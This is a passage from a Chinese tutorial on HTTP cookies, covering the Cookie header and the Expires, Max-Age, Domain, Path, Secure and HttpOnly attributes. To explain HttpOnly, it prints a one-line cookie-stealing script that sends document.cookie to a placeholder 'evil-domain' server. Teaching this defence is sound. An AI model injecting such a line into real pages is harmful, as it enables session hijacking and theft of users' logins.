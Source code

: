 上面代码会向服务器发送名为 `foo` 的 `Cookie`，值为 `bar`。

`Cookie` 字段可以包含多个 `Cookie`，使用分号（`;`）分隔。

`Cookie: name=value; name2=value2; name3=value3`

下面是一个例子。

```javascript
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

服务器收到浏览器发来的 `Cookie` 时，有两点是无法知道的。

- `Cookie` 的各种属性，比如何时过期。
- 哪个域名设置的 `Cookie`，到底是一级域名设的，还是某一个二级域名设的。

#### 3.Cookie 的属性

##### 3.1 Expires，Max-Age

`Expires` 属性指定一个具体的到期时间，到了指定时间以后，浏览器就不再保留这个 `Cookie`。它的值是 UTC 格式，可以使用 `Date.prototype.toUTCString()` 进行格式转换。

`Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;`

如果不设置该属性，或者设为 `null`，`Cookie` 只在当前会话（`session`）有效，浏览器窗口一旦关闭，当前 `Session` 结束，该 `Cookie` 就会被删除。另外，浏览器根据本地时间，决定 `Cookie` 是否过期，由于本地时间是不精确的，所以没有办法保证 `Cookie` 一定会在服务器指定的时间过期。

`Max-Age` 属性指定从现在开始 `Cookie` 存在的秒数，比如 `60 * 60 * 24 * 365`（即一年）。过了这个时间以后，浏览器就不再保留这个 `Cookie`。

如果同时指定了 `Expires` 和 `Max-Age`，那么 `Max-Age` 的值将优先生效。

如果 `Set-Cookie` 字段没有指定 `Expires` 或 `Max-Age` 属性，那么这个 `Cookie` 就是 `Session Cookie`，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 `Cookie`。

##### 3.2 Domain，Path

`Domain` 属性指定浏览器发出 HTTP 请求时，哪些域名要附带这个 `Cookie`。如果没有指定该属性，浏览器会默认将其设为当前 URL 的一级域名，比如 `www.example.com` 会设为 `example.com`，而且以后如果访问 `example.com` 的任何子域名，HTTP 请求也会带上这个 `Cookie`。如果服务器在 `Set-Cookie` 字段指定的域名，不属于当前域名，浏览器会拒绝这个 `Cookie`。

`Path` 属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 `Cookie`。只要浏览器发现，`Path` 属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 `Cookie`。比如，`PATH` 属性是 `/`，那么请求 `/docs` 路径也会包含该 `Cookie`。当然，前提是域名必须一致。

##### 3.3 Secure，HttpOnly

`Secure` 属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 `Cookie` 发送到服务器。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的 `Secure` 属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。

`HttpOnly` 属性指定该 `Cookie` 无法通过 JavaScript 脚本拿到，主要是 `Document.cookie` 属性、`XMLHttpRequest` 对象和 `Request API` 都拿不到该属性。这样就防止了该 `Cookie` 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 `Cookie`。

`(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;`

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 `Cookie` 发往第三方服务器。如果设置了一个 `Cookie` 的 `HttpOnly` 属性，上面代码就不会读到该 `Cookie`。

#### 4.document.cookie

